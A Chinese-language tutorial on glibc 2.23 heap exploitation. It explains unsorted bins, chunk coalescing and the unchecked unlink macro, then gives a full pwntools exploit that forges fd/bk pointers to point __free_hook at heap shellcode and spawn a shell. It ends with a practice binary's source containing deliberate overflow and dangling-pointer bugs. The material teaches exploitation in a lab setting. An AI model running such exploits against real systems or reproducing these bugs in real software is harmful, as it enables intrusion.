## Unsafe unlinking

本文介绍一种对于`unsorted_bin`  的利用技巧，该技巧来自于本世纪初phrack杂志的[一篇文章](http://www.phrack.org/issues/57/9.html)。

虽然古老，但可以作为一个切入点，了解 glibc 早期版本防止heap 碎片化的做法，以及内存合并的规则。

这个利用的思想，对于现代版本的glibc同样适用(毕竟属于同一种malloc算法), 但需要做一些适配，后文safe unlinking 会展开介绍。

### Unsorted bin机制

前面在介绍fastbin dup技巧时， 描述过fastbin机制，就是对于大小在0x20 - 0x80的内存块释放时， 会有对应的单向链表进行回收管理。

同样，对于大小在0x80以上的内存块（我们称之为unsorted bin）在释放的时候依然有链表进行管理，不过这次是双向链表。

下面以demo1为例， 调试观察内存变化：

在gdb中加载 demo1， 在main函数打断点，逐步运行到以下位置：



这时候，heap是这个样子：



执行`free(a);`后：



留意到0x20大小的chunk的PRE_INUSE flag被设为0，表示前一个chunk被释放，处于非占用的状态。它前面8个字节也被写入了前一个chunk的大小（即0x90， 这时这8个字节其实可以算作0x20chunk的了，这点很容易迷惑人）

前一个chunk的内部也被写入了两个指向main_arena的指针。

再执行`free(b);`后：



由于0x90的chunk不在fastbin的大小范围，其属于所谓unsorted_bin, 用命令`unsortedbin`可查看基本的节点结构：



注意其中那个地址0x7ffff7dd4b78其实是在main_arena 里的，我们查看一下main_arena的样子：



综上调试的现象，我们有以下结论：

> 1. 0x90大小的chunk释放后，会被加入到一个叫unsorted_bin的链表。
> 2. unsorted_bin是个双向环状链表，链表的"头"在main_arena 。



### 内存合并 和 unlinking 

前面例子里的a、b chunk都有fastbin chunk阻隔，如果去掉这些阻隔呢？

以demo2为例子，观察合并内存变化：

在gdb中加载 demo2， 在main函数打断点，逐步运行到以下位置：



这时，heap的样子如下：



执行`free(d);`后，变成这样：



可见，原来的 d chunk消失了，算一下top chunk大小和位置变化，可知 d chunk被并入了top chunk。

查一下unsorted_bin,发现 d chunk 在上面也没有记录



由此可知，当一个unsorted bin 大小的chunk释放的时候，libc会检查这个chunk 附近的内存，看是否能合并，如果能，那就合并，否则才在unsorted bin的链表里做记录。这是一种防止内存碎片化的举措。

chunk d 和 top chunk 和并，是因为它们相邻，如果有阻隔自然就不会有合并了，但如果chunk d 前面的chunk 空闲且在unsorted bin 的记录中呢？ 我们继续调试：

重新申请chunk d, 添加大小为0x20的fastbin chunk作为阻隔， 再释放chunk c:



释放chunk c 后，heap如下：



被释放的chunk c 被unsorted bin记录， 且在chunk d 前。

这时如果再释放chunk d， 前面说过，这样必然有合并，但前面的chunk c 已经在unsorted bin的双向链表的记录里，如何处理呢？ 一个很自然的想法是，双向链表解除chunk c 这个节点，让chunk c 和 chunk d 合并，再把合并后的chunk 加回到原来的unsorted bin里：



这个解除chunk c的过程就是所谓的**unlink**, 在早期版本的libc中（如v2.23）， 这个过程是以宏函数存在的, 逻辑如下：



上面的P是需要解除的节点，unlink的核心逻辑是这段：

```c
FD = P->fd;
BK = P->bk;
FD->bk = BK;
BK->fd = FD;
```

注意这些都是宏代码，没有任何的强制检测，（所以被叫做unsafe unlink）假如P这个节点里的内容我能控制，（比如有某种溢出或者UAF）那么FD和BK的值我能控制，而`FD->bk = BK;`  意味着我能往一个我指定的地址里写入内容，这是任意写。（注意这是 一个双向的写，毕竟后面还有`BK->fd = FD;`，这给利用带来一定麻烦，因为地址`FD->bk`和`BK->fd `不一定同时可写， 当然在2000年初，那时候还没有NX措施，双向写可以都在heap上，且heap可执行，即可以注入shellcode） 

下面用一个例子说明这样的漏洞的利用：

### unsafe unlink

 以[unsafe_unlinking](../data/unsafe_unlinking) 为例， 基本信息如下：



在gdb下调试，基本功能如下：



两次选择1，申请大小为0x88的内存(malloc chunk 大小为0x90)， 这时的heap布局如下：



继续执行，选择2， 编辑第一块内存，输入大量垃圾字符：



检测heap，发现编辑功能有溢出的现象：



这时，我们可以控制 fd、bk、pre_size、fake_size, 由上内存合并述讨论知道:  

> 如果fake_size的 PRE_INUSE bit（也就是最后一位）是0，free 这个chunk的时候，会触发合并和unlinking, 而这时的fd 和bk 我们能控制，a.k.a. 我们有一个任意写

由于没有NX bit，一个很自然的想法是：注入shellcode到heap上执行。

但如何触发呢？由于两次malloc机会都用完了，所以不能像之前那样用`__malloc_hook`触发，但还有free，故可以通过`__free_hook`触发。

综上，利用的思路可以归结如下：

1. 由于unlink中`FD->bk = BK;`，FD和BK我们能控制，故可以使FD->bk 为`__free_hook`的地址，而BK 为注入的shellcode的地址。unlink后， __free_hook 指向shellcode。
2. free一下触发shellcode.

利用代码如下：

```python
 #!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("unsafe_unlinking")
libc = elf.libc
index = 0

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def malloc(size):
    global index
    io.recvuntil("your option is: ")
    io.timeout = 0.1
    io.send("1")
    io.sendafter("malloc size(hexadecimal): ", hex(size))
    index += 1
    return index - 1 

def edit(index, data):
    io.recvuntil("your option is: ")
    io.timeout = 0.1
    io.send("2")
    io.sendafter("chunk index: ", str(index))
    io.sendafter("input data: ", data)

def free(i):
    io.recvuntil("your option is: ")
    io.timeout = 0.1
    io.send("3")
    global index
    io.sendafter("index: ", str(i).encode())


io = start()
io.recvuntil("puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.recvuntil("heap @ ")
heap = int(io.recvline(), 16)


shellcode = asm("jmp shellcode;" + "nop;"*0x16 + "shellcode:"+ shellcraft.execve("/bin/sh"))
shellcode_addr = heap + 0x20

chunk_a = malloc(0x88)
chunk_b = malloc(0x88)


fd          = libc.sym.__free_hook - 0x18
bk          = shellcode_addr
prev_size    = 0x90
fake_size   = 0x90

edit(chunk_a, p64(fd) + p64(bk) + shellcode + b'a'*(0x88- len(shellcode) - 0x18) + p64(prev_size) + p64(fake_size))

free(chunk_b)
free(chunk_a)


io.interactive()
```

一个值得注意点： 由于这里的unlink的任意写是双向写，即`FD->bk = BK;`后面还有`BK->fd = FD;`，BK是shellcode的地址，这样shellcode会被FD污染。为了绕过这种影响，这里的shellcode一开始就用了一个jump， （两个字节）中间就是一堆NOP， 即使被污染也不会影响逻辑。当然，如果不想用这种方法写shellcode，也可以把shellcode放到第二个chunk里， 这里就不展开讲.

测试，确实拿到shell：



最后附上漏洞程序的源码：

```c
#include<stdio.h>
#include<stdlib.h>
#include<stdbool.h>
#include<unistd.h>
#include<malloc.h>
#include<stdint.h>

#define NAME "unsafe unlinking\n"
#define LINE "-------------------------------\n"
#define MAX_MALLOC 2
#define MIN_SIZE 120
#define MAX_SIZE 1000

// gcc --std=gnu89 -z execstack-no-pie -Wl,-rpath,../libc/glibc_2.23_unsafe-unlink/,-dynamic-linker,../libc/glibc_2.23_unsafe-unlink/ld.so.2 -g unsafe_unlinking.c -o un\
safe_unlinking

void* pointers[MAX_MALLOC];

void print_banner(void) {
    printf(NAME);
    printf(LINE);
}

void print_leak(void) {
    printf("puts() @ %p\n", &puts);
    char* a = malloc(0x88);
    printf("heap @ %p\n", a-0x10);
    free(a);
}

void print_option(int malloc_count) {
    printf("1) malloc %d/%d\n", malloc_count, MAX_MALLOC);
    puts("2) edit");
    puts("3) free");
    puts("4) quit");
    printf("your option is: ");
}

unsigned long read_num(void) {
    char buf[31];
    unsigned long num;
    read(0, buf, 31);
    num = strtoul(buf, 0, 10);
    return num;
}
unsigned long read_num_x(void) {
    char buf[31];
    unsigned long num;
    read(0, buf, 31);
    num = strtoul(buf, 0, 0);
    return num;
}

void do_malloc(int* malloc_count) {
    if (*malloc_count < MAX_MALLOC){
        printf("malloc size(hexadecimal): ");
        unsigned long malloc_size = read_num_x();
        if (malloc_size > MIN_SIZE && malloc_size <= MAX_SIZE){
            char* buf = malloc(malloc_size);
            pointers[*malloc_count] = buf;
            *malloc_count+=1;
        }
        else {
            printf("small chunks only - excluding fast sizes (0x%x < bytes <= 0x%x)\n", MIN_SIZE, MAX_SIZE);
        }
    }
    else{
        printf("Sorry, no more space for you to malloc.\n");
    }
    printf(LINE);
}

void do_free(void) {
    printf("index: ");
    unsigned long index = read_num();
    if (index < MAX_MALLOC) {
        void* pointer = pointers[index];
        free(pointer);
        printf("free %p\n", pointer);
        // pointers[index] = NULL;
        
    }
    printf(LINE);
}

void do_edit()
{
    printf("chunk index: ");
    unsigned long index = read_num();
    if (index < MAX_MALLOC) {
        void* buf = pointers[index];
        if (buf != NULL) {
